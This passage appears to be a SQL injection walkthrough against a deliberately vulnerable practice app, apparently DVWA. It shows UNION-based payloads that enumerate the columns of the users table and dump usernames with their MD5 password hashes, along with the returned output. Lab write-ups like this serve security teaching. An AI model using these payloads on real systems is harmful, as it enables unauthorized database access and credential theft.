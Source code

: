 **Get column names for the users table**

`‘union select column_name, 2 from information_schema.columns where table_name='users’—  `

```
ID: 'union select column_name, 2 from information_schema.columns where table_name='users'--  

First name: user_id

Surname: 2

ID: 'union select column_name, 2 from information_schema.columns where table_name='users'--  

First name: first_name

Surname: 2

ID: 'union select column_name, 2 from information_schema.columns where table_name='users'--  

First name: last_name

Surname: 2

ID: 'union select column_name, 2 from information_schema.columns where table_name='users'--  

First name: user

Surname: 2

ID: 'union select column_name, 2 from information_schema.columns where table_name='users'--  

First name: password

Surname: 2

ID: 'union select column_name, 2 from information_schema.columns where table_name='users'--  

First name: avatar

Surname: 2
```

**Get password hashes**

`‘union select user, password from users— `

```
ID: ' union select user, password from users-- 

First name: admin

Surname: 5f4dcc3b5aa765d61d8327deb882cf99

ID: ' union select user, password from users-- 

First name: gordonb

Surname: e99a18c428cb38d5f260853678922e03

ID: ' union select user, password from users-- 

First name: 1337

Surname: 8d3533d75ae2c3966d7e0d4fcc69216b

ID: ' union select user, password from users-- 
```